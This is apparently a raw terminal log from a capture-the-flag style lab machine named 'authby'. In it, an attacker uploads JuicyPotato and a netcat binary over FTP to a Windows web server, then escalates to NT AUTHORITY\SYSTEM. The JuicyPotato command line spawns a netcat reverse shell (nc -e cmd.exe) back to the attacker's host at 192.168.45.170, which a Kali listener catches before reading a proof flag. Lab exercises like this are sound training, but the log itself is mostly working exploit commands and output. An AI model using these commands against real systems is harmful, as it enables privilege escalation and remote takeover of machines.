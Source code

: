 C:\wamp\www>.\JuicyPotato.exe                                                                                                                                                                                                               
This version of C:\wamp\www\JuicyPotato.exe is not compatible with the version of Windows you're running. Check your computer's system information to see whether you need a x86 (32-bit) or x64 (64-bit) version of the program, and then contact the software publisher. 

ftp> put Juicy.Potato.x86.exe 
local: Juicy.Potato.x86.exe remote: Juicy.Potato.x86.exe
229 Entering Extended Passive Mode (|||2139|)
150 File status okay; about to open data connection.
100% |***********************************************************************************************************************************************************************************************|   257 KiB    1.38 MiB/s    00:00 ETA
226 Closing data connection.
263680 bytes sent in 00:00 (1.16 MiB/s)

ftp> put nc32.exe
local: nc32.exe remote: nc32.exe
229 Entering Extended Passive Mode (|||2140|)
150 File status okay; about to open data connection.
100% |***********************************************************************************************************************************************************************************************| 38616      615.52 KiB/s    00:00 ETA
226 Closing data connection.
38616 bytes sent in 00:00 (397.37 KiB/s)

C:\wamp\www>.\Juicy.Potato.x86.exe -t * -p c:\windows\system32\cmd.exe -a "/c C:\wamp\www\nc32.exe 192.168.45.170 1111 -e cmd.exe" -l 1111 -c "{3c6859ce-230b-48a4-be6c-932c0c202048}"
Testing {3c6859ce-230b-48a4-be6c-932c0c202048} 1111               
....                                                                  
[+] authresult 0
{3c6859ce-230b-48a4-be6c-932c0c202048};NT AUTHORITY\SYSTEM    

[+] CreateProcessWithTokenW OK

┌──(lepotekil㉿kali)-[~/proving-ground-prac/authby]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [192.168.45.170] from (UNKNOWN) [192.168.164.46] 49168
Microsoft Windows [Version 6.0.6001]
Copyright (c) 2006 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BCAD-595B

 Directory of C:\Users\Administrator\Desktop

07/09/2020  11:02 AM    <DIR>          .
07/09/2020  11:02 AM    <DIR>          ..
10/20/2025  08:53 AM                34 proof.txt
11/08/2011  04:37 AM               471 WampServer.lnk
11/08/2011  04:52 AM               927 zFTPServer Administration.lnk
               3 File(s)          1,432 bytes
               2 Dir(s)   6,031,458,304 bytes free

C:\Users\Administrator\Desktop>type proof.txt
type proof.txt
ebb72ad084414619697046ac002a7336